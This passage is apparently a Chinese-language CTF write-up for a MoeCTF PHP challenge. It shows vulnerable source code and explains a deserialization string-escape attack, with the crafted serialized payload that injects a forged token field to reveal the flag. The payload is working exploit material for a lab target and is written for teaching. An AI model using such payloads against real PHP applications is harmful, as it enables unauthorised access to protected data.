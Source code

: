 a.php

```php
<?php
session_start();
highlight_file(__FILE__);

include('flag.php');

class moectf{
    public $a;
    public $b;
    public $token='heizi';
    public function __construct($r,$s){
        $this->a = $r;
        $this->b = $s;
    }
}

if($_COOKIE['moe'] == 1){
    $moe = unserialize(base64_decode($_SESSION['moe']));
    if($moe->token=='baizi'){
        echo $flag;
    }
}
```

`$emo = str_replace('aiyo', 'ganma', serialize($moe));`

看到这一句就能发现很明显的**反序列化字符串溢出**了

原本这样的序列化字符串

```php
O:6:"moectf":3:{s:1:"a";s:1:"a";s:1:"b";s:136:"baiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyo";s:5:"token";s:5:"baizi";}";s:5:"token";s:5:"heizi";}
```

![image-20221015210354307](moectf.assets\image-20221015210354307.png)

箭头指的是**string b**的开头和结尾

经过**str_replace**后

```php
s:210:"O:6:"moectf":3:{s:1:"a";s:1:"a";s:1:"b";s:136:"bganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganmaganma";s:5:"token";s:5:"baizi";}";s:5:"token";s:5:"heizi";}";
```

aiyo变成了ganma，字符串变长，但代表字符串长度的136仍未变

该字符串在经历反序列化时，只会取到第136位(也就是第一个箭头处)

![image-20221015210643121](moectf.assets\image-20221015210643121.png)
